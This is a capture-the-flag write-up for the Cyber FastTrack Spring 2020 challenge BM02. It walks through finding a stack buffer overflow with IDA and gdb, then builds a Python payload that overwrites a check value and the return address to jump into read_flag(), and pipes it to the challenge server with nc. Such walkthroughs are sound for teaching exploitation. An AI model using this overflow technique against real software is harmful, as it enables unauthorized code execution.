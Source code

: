 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG\
![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG\
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.PNG\
![image info](BM02_3.PNG)
* Notice that, if we look through the program, we know that we must enter `add_candidate` in order to add employee and use the exploitable() function.

BM02_4.PNG\
![image info](BM02_4.PNG)
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.


BM02_5.PNG\
![image info](BM02_5.PNG)
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`

BM02_6.PNG\
![image info](BM02_6.PNG)
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`

BM02_7.PNG\
![image info](BM02_7.PNG)
* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557492`. 

BM02_8.PNG\
![image info](BM02_8.PNG)
* Display the current and the next 199 stack pointer.
* Enter `x/200x $sp`
* The addresses that are 0x00000000 are local variables that we need to fill in before accessing/changing the return address. So in a text file, we enter the following and save it as a python file.
```python
print("add_candidate")
print('A'*20)
```
BM02_9.PNG\
![image info](BM02_9.PNG)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type `y` to start from the beginning
* In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are twenty-five `0x00000000` remaining for us to fill out and then we have to overwrite the `0xdeadbeef`.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are three adresses remaining to changes. Then, we changes the return address to `0x5655615d`. Note: we get `0x5655615d` from `disas read_flag` in the debugger. Remember, we have to write the addresses in reverse byte order.
	So, we changes the contents of the python file to:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
```	

BM02_10.PNG\
![image info](BM02_10.PNG)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type y to start from the beginning
* Enter `info frame` to see if the return address changed to `0x5655615d`.

BM02_11.PNG\
![image info](BM02_11.PNG)
* Use `si` to execute one instruction at a time to see if the program enters the `read_flag(void)` function.
* We see that the program enters the `read_flag(void)` function.

BM02_12.PNG\
![image info](BM02_12.PNG)
* Use `si` to execute one instruction at a time and we will see the flag eventually.

BM02_13.PNG\
![image info](BM02_13.PNG)
* In order to get the server to response to our request, we need to print out the last name and the job title. So we edit the python file as below:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
print("Last")
print("Title")
```	
* Send the bm02.py to the server and it would prints out the flag.
  * `python bm02.py | nc bm02.allyourbases.co 9003`





	
